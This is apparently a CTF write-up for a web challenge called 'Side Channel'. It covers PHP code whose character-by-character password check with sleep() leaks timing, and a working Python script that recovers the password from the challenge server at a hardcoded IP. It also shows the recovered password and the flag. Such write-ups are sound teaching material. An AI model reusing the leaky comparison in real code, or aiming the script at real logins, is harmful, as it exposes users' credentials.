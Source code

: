 # Challenge Name: Side Channel


![date](https://img.shields.io/badge/date-14.03.2022-brightgreen.svg)  
![solved after CTF](https://img.shields.io/badge/solved-after%20CTF-red.svg)       
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-35-blue.svg)  

## Description

Created By **m4rc0s**

Now, some interesting bugs …

Every so often, you can find some bugs in the logic of the code, and occasionally, you can use time to extract the password.

**Code**

```php
  $password  = $_POST['password'];
    for ($i = 0; $i < min(strlen($real_password),strlen($password)); $i+=1) 
    {
        if($password[$i] == $real_password[$i]) 
        {
            $cpt++;
            sleep(1);
        }
        else 
        break;
    }
    if($cpt == strlen($real_password)) echo $FLAG;
    else echo "Incorrect Password, and you waited $cpt seconds";  
```

> Don't try brute-force

> You can solve the challenge manually or by using a script

> You can search Side Channel Attacks

http://18.132.195.71

[Acces to WebSite](http://18.132.195.71/)

## Detailed solution

Looking at the code we can see a for loop analyzing our input to compare it with password elements. 

```php
  $password  = $_POST['password'];
    for ($i = 0; $i < min(strlen($real_password),strlen($password)); $i+=1) 
    {
        if($password[$i] == $real_password[$i]) 
        {
            $cpt++;
            sleep(1);
        }
        else 
        break;
    }
    if($cpt == strlen($real_password)) echo $FLAG;
    else echo "Incorrect Password, and you waited $cpt seconds";  
```

- if we test a wrong charactere the page will return "you waited **0** seconds" 
  
![image](https://user-images.githubusercontent.com/72421091/158093241-993539d9-0216-4830-94a6-97161d45d961.png)

- if we have only one charactere right the page will return "you waited **1** seconds"

![image](https://user-images.githubusercontent.com/72421091/158093294-2b5d36de-301a-4906-b3ec-6ed2443a6658.png)

- after each charactere we found, the page will return you waited **X** seconds" with X equal to the size of our right input until the last charactere wich will return the **$FLAG**  

I created a python script to find the characters used in the password one by one. The funny thing i didn't known what's wrong for days until i realize that i forgot to add the  flag test cas :disappointed_relieved:

```python
import requests, string
from requests.structures import CaseInsensitiveDict

url = "http://18.132.195.71/"

headers = CaseInsensitiveDict()

headers["Connection"] = "keep-alive"
headers["Cache-Control"] = "max-age=0"
headers["Upgrade-Insecure-Requests"] = "1"
headers["Origin"] = "http://18.132.195.71"
headers["Content-Type"] = "application/x-www-form-urlencoded"
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36"
headers["Accept"] = "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"
headers["Referer"] = "http://18.132.195.71/"
headers["Accept-Language"] = "en-US,en;q=0.9,ar;q=0.8,fr;q=0.7"

t = 1
flag = ""

while(True):    
    for s in string.printable:
        tit = flag + s
        data = F"password={tit}"
        resp = requests.post(url, headers=headers, data=data)
        page = resp.content.decode("utf-8")
        if page.find(F"{t} seconds") != -1:
            flag += s
            print(flag)
            t = t+1
            break
        elif s == string.printable[-1]:
            print("Not found")
            exit()
        elif page.find("CRISIS{") != -1:
            flag += s
            print(F"the password is {flag}")
            print(page)
            exit()
```

Output

```
w
we
web
webs
webse
the password is websec
<html>
    <head>
       <meta charset="utf-8">
        <link rel="stylesheet" href="style.css" media="screen" type="text/css" />
    </head>
    <body>
        <div id="container">            
            <form action="" method="POST">
                <h3 class="text-center">Insert your Password</h3>
                
                <input type="text" placeholder="Enter the password" id=password name="password" required>

                <input type="submit" value="Submit">
            
            </form>
        </div>
    </body>
</html>

CRISIS{1c93286e3}
```
![image](https://user-images.githubusercontent.com/72421091/158093187-e2639b55-1627-41e5-8c81-5b031b395dc5.png)

## Flag

```
CRISIS{1c93286e3}
```


